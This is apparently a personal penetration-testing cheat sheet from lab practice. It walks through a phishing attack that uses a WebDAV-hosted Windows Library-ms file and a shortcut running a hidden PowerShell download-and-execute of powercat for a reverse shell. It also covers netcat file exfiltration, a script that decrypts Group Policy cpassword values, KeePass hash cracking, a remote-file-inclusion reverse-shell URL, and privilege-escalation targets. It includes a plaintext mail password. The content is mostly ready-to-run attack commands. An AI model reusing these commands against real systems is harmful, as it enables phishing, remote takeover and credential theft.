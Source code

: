 # 🔹Phishing 

### 1) Enable /webdav Server
```
python3 -m venv myenv
source myenv/bin/activate
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```
### 2) Create 'config.Library-ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```
### 4) Staging 
- Place `powercat.ps1`, `shortcut.lnk`, `config.Library.ms` & `body.txt` in **/Webdav**
- nc -lnvp 1337 (from **/WebDav** to get `powercat.ps1`) <-- this is wrong
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- `body.txt` has to sound convincing
```
 Hi,

 please click on the attachment
```
### 5) Execution (require mail credentials)

> jim@relia -> has to be legit recipient
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

User + Password field included
```
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.112.189 --body @body.txt --header "Subject: Staging Script" --suppress-data --auth-user "maildmz@relia.com" --auth-password "DPuBT9tGCBrTbR"
```

# 🔹Transfer files (Windows to Linux)
```
# Windows TO
PS C:\temp> cmd /c "nc64.exe 192.168.174.245 4444 < C:\Scheduler\scheduler.exe"

# Linux
nc -lnvp 4444 > scheduler.exe
```


# 🔹Groups.xml
- AKA GPP (Group Policy Preferences)
- `Groups.xml` Likely in found `SYSVOL` folder, or `machines/preferences/group` or `/preferences/group`
- This is related to domain-connected workstation
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
We can crack the cpassword with the following python script `ggp-decrypt.py`
```
#!/usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64

if __name__ == "__main__":
    key = b"\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
    iv = b"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0"
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # CHANGE THIS CIPHER TEXT
    ciphertext = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ=="
    ciphertext = base64.b64decode(ciphertext)

    plaintext = cipher.decrypt(ciphertext)
    plaintext = unpad(plaintext, AES.block_size)

    print(plaintext.decode())
```
To use the script do the following
```
python3 -m venv venv
. venv/bin/activate
pip3 install pycryptodome
python3 gpp-decrypt.py
```
# 🔹.kdbx, KeePass
Extract Password Hash
```
keepass2john Database.kdbx > keepass.hash
```
Crack 
```
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
# If we hashcat we must remember to strip off the initial “Database:” from the hash.
hashcat -m 13400 keepass.hash rockyou.txt -r rockyou-30000.rule --force
```

Transfer files from window using nc
```
Get-Content "Database.kdbx" | .\nc.exe 192.168.45.239 5555
nc -lnvp 5555 > Database.kdbx
```

# 🔹Initial Access
```
Point of entry: web

What kind of web technology is being ran? PHP? JAVA? etc
Knowing this = we know what kind of payload to run
On the Point of entry: can it be LFI // RFI?

RFI: http://url.com/image.php?imd=http://KALI/PHP-reverse-shell.php


```
Public exploits-> Sometimes, you need to change the payload (or put some pentestmonkey payload)
![image](https://github.com/user-attachments/assets/11a91186-4558-42e7-b5c4-e3c2a0410752)


```

# 🔹Linux Privilege Escalation
```
Sudo -l -> gcore -> check running processes for any Password dumping related processes
```

```
Is any of the local binary vulnerable? Sudo vulnerable?
```

```
wp-config.php -> contains credentials
```
```
If we have root file write, check if we can write to 
- /root/.ssh/authorized_keys
- /etc/passwd
- /etc/sudoers
```
keepassxc 
```

```
